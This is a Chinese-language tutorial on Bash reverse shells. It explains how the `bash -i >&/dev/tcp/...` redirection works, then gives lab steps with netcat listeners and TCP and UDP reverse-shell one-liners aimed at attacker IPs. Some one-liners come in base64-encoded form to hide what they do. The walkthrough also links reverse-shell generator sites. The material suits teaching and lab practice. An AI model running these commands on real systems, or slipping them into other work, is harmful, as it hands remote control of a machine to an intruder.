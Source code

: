 # **Bash**介绍                                          [ ](af://n4)

Shell也称为终端或壳， 是人与内核之间的翻译官， 而Bash则是Linux中默认使用的Shell

Bash 反弹Shell的命令如下：

```
bash -i >&/dev/tcp/攻击机_IP/攻击机端口 0>&1
bash -i >&/dev/tcp/攻击机_IP/攻击机端口 0>&2
bash -i >&/dev/udp/攻击机_IP/攻击机端口 0>&1
bash -i >&/dev/udp/攻击机_IP/攻击机端口 0>&2

bash -i >&/dev/tcp/192.168.70.7/9999 0>&1
nc -lvvp 9999
```

"`bash-i`"是指打开一个交互式的Shell。

"`&`"符号用于区分文件和文件描述符， 

"`>&`"符号后面跟文件时， 表示将标准输出和标准错误输出重定向至文件， ">&"符号后面跟数字时表示后面的数字是文件描述符， 不加"&"符号则会把后面的数字当成文件。

数字"`0`","`1`","`2`"是LinuxShell下的文件描述符，“0”是指标准输入重定向，“1”是指标准输出重定向，“2”是指错误输出 重定向。

"`/dev`"目录下"tcp"和"udp"是Linux中的特殊设备， 可用于建立Socket连接， 读写这俩文件就相当于是在Socket连 接中传输数据。

"`>&/dev/tcp/`攻击机_ip/攻击机端口"则表示将**标准输出和标准错误输出重定向**到"/dev/tcp/攻击机 ip/攻击机端口"文件中， 也就是重定向到了攻击机， 这时目标机的命令执行结果可以从攻击机看到。

"`0>&1`"或"`0>&2`"又将标准输入重定向到了标准输出， 而标准输出重定向到了攻击机， 因此标准输入也就重定 向到了攻击机， 从而可以通过攻击机输入命令， 并且可以看到命令执行结果输出

# 实验介绍                                          [ ](af://n16)

![img](https://image.201068.xyz/assets/clip_image001-168398343346065.jpg)

 

| 机器名称 | 机器**IP**              |
| -------- | ----------------------- |
| 攻击机器 | 192.168.3.27 (Windows)  |
| 实验靶机 | 192.168.41.135 ( Linux) |

## 1、攻击机器使用nc执行监听命令

```
nc -lvvp 9999   监听TCP  
nc -lup 9999    监听UDP  
```

![img](https://image.201068.xyz/assets/clip_image002.jpg)

## 2、实验靶机执行连接命令

[Runtime.exec Payload Generater | AresX's Blog (ares-x.com)](https://ares-x.com/tools/runtime-exec/)

[Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)

### tcp

```
nc -lvvp  9999
bash -i >&/dev/tcp/192.168.70.7/9999 0>&1
 
https://ares-x.com/tools/runtime-exec/
bash base64:
YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguNzAuNy85OTk5IDA+JjE=

bash -c '{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguNzAuNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'

bash -i >&/dev/tcp/192.168.70.7/9999 0>&1
```

### udp

```
nc -lup 9999
bash -i >&/dev/udp/192.168.70.7/9999 0>&1
bash -c '{echo,YmFzaCAtaSA+Ji9kZXYvdWRwLzE5Mi4xNjguNzAuNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'


bash -i >&/dev/udp/172.21.80.99/9999 0>&1
bash -c '{echo,YmFzaCAtaSA+Ji9kZXYvdWRwLzE3Mi4yMS44MC45OS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'
```

base64的编码差别是 udp的编码中的Rw 和 tcp的编码中的GN

![img](https://image.201068.xyz/assets/clip_image003-168398343346166.jpg)

## 3、查看结果

![img](https://image.201068.xyz/assets/clip_image005-168398343346167.gif)